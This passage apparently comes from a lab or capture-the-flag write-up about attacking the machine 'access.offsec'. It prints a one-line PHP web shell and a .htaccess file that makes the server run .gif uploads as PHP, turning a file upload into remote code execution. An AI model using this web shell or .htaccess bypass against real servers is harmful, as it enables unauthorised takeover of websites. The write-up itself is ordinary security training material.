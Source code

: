
However, when we view our file, it does not execute our code.&#x20;

```
$ curl http://access.offsec/uploads/cmd.php%2500 
<?php system($_REQUEST['cmd']); ?>
```

### .htaccess Overwrite --> RCE

I found this pretty weird, why would NOT be executing PHP? I googled for what can block PHP execution on websites, and it brought me to this page detailing about how the `.htaccess` file can do that:

{% embed url="https://www.wpbeginner.com/wp-tutorials/how-to-disable-php-execution-in-certain-wordpress-directories/" %}

Since we have an LFI, we can try to overwrite the current `.htaccess` file. This file sort of 'executes' for the directory it is in. So if we upload a `.htaccess` file to the `/uploads` directory allowing PHP exeuction, it should allow webshells to work within the `/uploads` directory only.&#x20;

We can upload this file:

```
<IfModule mime_module>
AddHandler php5-script .gif
SetHandler application/x-httpd-php
</IfModule>
```

<figure><img src="../../../.gitbook/assets/image (471).png" alt=""><figcaption></figcaption></figure>

